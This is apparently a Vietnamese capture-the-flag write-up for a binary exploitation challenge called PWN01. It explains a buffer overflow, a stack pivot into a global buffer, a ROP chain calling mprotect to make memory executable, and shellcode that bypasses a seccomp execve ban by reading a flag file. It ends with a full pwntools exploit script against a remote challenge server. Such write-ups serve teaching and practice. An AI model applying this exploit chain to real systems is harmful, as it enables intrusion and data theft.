

# PWN01


## OVERVIEW

- Challenge cho chúng ta một file ELF 64-bit. Bên dưới là thông tin của file


- Tiếp theo mình cho file này vào ida để decompile nó xem bên trong nó thực hiện những gì.


- Hàm main đầu tiên `setbuf()` cho các file, sau đó gọi đến hàm `init_seccomp()`.
- Kiểm tra hàm `init_seccomp()`, mình biết được hàm tạo ra những quy tắc cho file, cụ thể ở đây là không cho phép sử dụng lệnh gọi `execve (0x3b)` và một số quy tắc khác với hàm `bpf()` mà mình chưa rõ (Cũng vì hàm này nên cũng tiêu tốn khá nhiều thời gian giải bài của mình :v).


- Tuy nhiên từ đây, ta biết là gần như chúng ta không thể lấy được shell đang chạy chương trình.
- Tiếp trong hàm main, ta có 2 lệnh in màn hình, lệnh nhập cho biến `nm` với đầu vào `256` ký tự, in tiếp ra màn hình thông báo và lệnh `read(0, v6, 0x90);`, lệnh này gây buffer overflow vì biến `v6` được khởi tạo có `96 bytes`. Như vậy là mình có thể ghi đè thêm `0x30 bytes`.
- Và sau đó là hàm `is_this_funny()` thực hiện việc kiểm tra `11` ký tự đầu của chuỗi `v6` xem có đúng bằng với chuỗi `"I'm weebiii"` không. Nếu không thì sẽ thực hiện thoát chương trình ngay. Còn nếu có thì chương trình được thực hiện tiếp đến khi thoát hàm main.


- Mình có rà soát lại các hàm khác và tìm được một hàm `winwin()`, tuy nhiên chúng ta đã không thể dùng lời gọi `0x3b` để lấy được shell rồi :v.


## IDEA

- Mình sẽ dùng lỗi buffer overflow để tạo một đoạn ROP gadget chuyển hướng `RIP` về địa chỉ của `nm`, tại `nm` mình sẽ lưu trữ các địa chỉ của các ROP gadget khác.
- Các lệnh này đầu tiên sẽ thay đổi địa chỉ của con trỏ `RSP`, biến vùng nhớ của `nm` trở thành stack "ảo" để chúng ta thực hiện chuỗi các gadget khác đằng sau đó, như vậy là mình có thể thực hiện ROP thoải mái hơn.
- Mình sẽ chia `nm` thành 3 phần, phần đầu dùng để chứa địa chỉ của các ROP gadget, phần thứ 2 sẽ dùng để chứa shellcode, phần thứ 3 thì mình sẽ dùng để chứa data cho shellcode.
- Do chúng ta không thể gọi đến lệnh lấy shell, nên mình sẽ thử in ra các file trên server xem có tìm được flag không (Thật ra đây là ý tưởng cuối cùng mình có thể làm).

## DETAILS

- Mình dư ra `48 bytes` khi lấp đầy được biến `v6`, mình cần `8 bytes` ghi đè `RBP` để tới được phần địa chỉ `RET` của hàm `main`. Như vậy là mình còn `40 bytes` để thao tác.
- Thật may là file này được compile với `statically linked`, tức là file đã chứa hầu hết các hàm của thư viện, điều này sẽ thuận tiện cho việc tìm các gadget hơn.
- Dưới đây là những địa chỉ và giá trị hữu ích mà mình tìm được để thực hiện việc khai thác. 


- Đầu tiên mình sẽ xây dựng payload cho việc ghi dữ liệu vào `nm`.


- Ở đây mình sử dụng `16 bytes` đầu cho việc điền tên file, vì mình không biết tên file flag là gì, nên mình sẽ dành `16 bytes` cho việc thử tên.
- Sau đó là gadget pop `RSP`, lệnh này sẽ thay đổi địa chỉ trong `RSP` thành giá trị nào đó (lúc này `RSP` vẫn trỏ lên stack nên giá trị truyền vào `RSP` sẽ nằm trên stack).
- Sau đó là các gadget truyền đối số vào các thanh ghi và thực hiện `mprotect(data_segment, 0x2000, 7);` lệnh này sẽ thực hiện set quyền `rwx` cho cả phân đoạn `data` (chứa cả `nm`). Mình phải làm điều này vì file đã bật `NX` (không cho phép có phân đoạn nhớ nào có cả thuộc tính ghi và thực thi).
- Sau khi thực hiện lệnh `mprotect();` xong thì mình sẽ nhảy đến vùng nhớ của shellcode để thực thi shellcode.
- Đây sẽ là tên file mình sử dụng.



- Shellcode của mình thực hiện việc mở file có tên trong biến file, và sau đó đọc `0x100 bytes` trong file đó và ghi vào địa chỉ `0x4d73d0`, phần này là phần vùng nhớ cuối của biến `nm`. Tiếp theo là phần in ra dữ liệu tại địa chỉ `0x4d73d0`.


- Sau đó mình sẽ gộp 2 phần ROP và shellcode vào là được payload để truyền vào biến `nm` rồi.
- Còn biến `v6`, mình sẽ ghi đoạn đầu đúng như chuỗi trong hàm `is_this_funny();` để chương trình không chạy vào hàm `exit();`. Sau đó là phần padding `(0x68-11) bytes` để chúng ta đến được vùng nhớ `RET` của `main`.


- Chuỗi các gadget mình sử dụng sẽ set địa chỉ bắt đầu của phần ROP trong `nm` vào `RSI`, và sau đó sẽ chuyển hướng `RIP` đến vùng nhớ đó thực hiện các lệnh trong ROP. 
- Tuy nhiên sau khi chuyển hướng `RIP` đến vùng nhớ của `nm` thì chúng ta vẫn phải thay đổi tiếp `RSP` để thực hiện tạo một stack "ảo", do đó sau lệnh `jmp rsi`, mình sẽ để địa chỉ tiếp theo trong ROP trên `nm`.

- Đây là script dùng để khai thác.

```python
from pwn import *
#----------------------------------------------
# Register pop gadget
pop_rsi     = 0x4021e4 # : pop rsi ; ret
pop_rdx     = 0x450b6d # : pop rdx ; ret
pop_rdi     = 0x4033e1 # : pop rdi ; ret
mtf         = 0x401dc0 # : pop rsp ; ret

# Change RIP gadget
jmp_ptr_rsi = 0x486638 # : jmp qword ptr [rsi]

# Address
nm_rop  = 0x4D7330 # Start of ROP chain in nm
mprotec = 0x452E50 # mprotec address

start_s = 0x4d6000 # start segment for mproc
size_s  = 0x2000   # size that want to set
per_s   = 7        # mode rwx
sh_addr = 0x4d7378 # shellcode's address

# Data
file    = b"flag"
shellcode = b"\x48\xC7\xC0\x02\x00\x00\x00\x48\xC7\xC7\x20\x73\x4D\x00\x48\xC7\xC6\x00\x00\x00\x00\x48\xC7\xC2\x00\x00\x00\x00\x0F\x05\x48\x89\xC7\x48\xC7\xC6\xD0\x73\x4D\x00\x48\xC7\xC2\x00\x01\x00\x00\x48\xC7\xC0\x00\x00\x00\x00\x0F\x05\x48\xC7\xC6\xD0\x73\x4D\x00\x48\xC7\xC2\x00\x01\x00\x00\x48\xC7\xC0\x01\x00\x00\x00\x48\xC7\xC7\x01\x00\x00\x00\x0F\x05"
#----------------------------------------------
# Code Start
p = remote("167.172.80.186", 6666)
p.recvuntil(b"> ")

ROP = file + b"\0"*(16-len(file)) + p64(mtf) 
ROP += p64(pop_rdi) + p64(start_s) 
ROP += p64(pop_rsi) + p64(size_s) 
ROP += p64(pop_rdx) + p64(per_s) 
ROP += p64(mprotec)
ROP += p64(sh_addr) 

p.send(ROP + shellcode)

p.recvuntil(b"> ")

payload = b"I'm weebiii" + b"a"*(0x68-11)
payload += p64(pop_rsi) + p64(nm_rop) 
payload += p64(jmp_ptr_rsi) 
payload += p64(nm_rop + 8)

p.send(payload)

p.interactive()

```

## RESULT

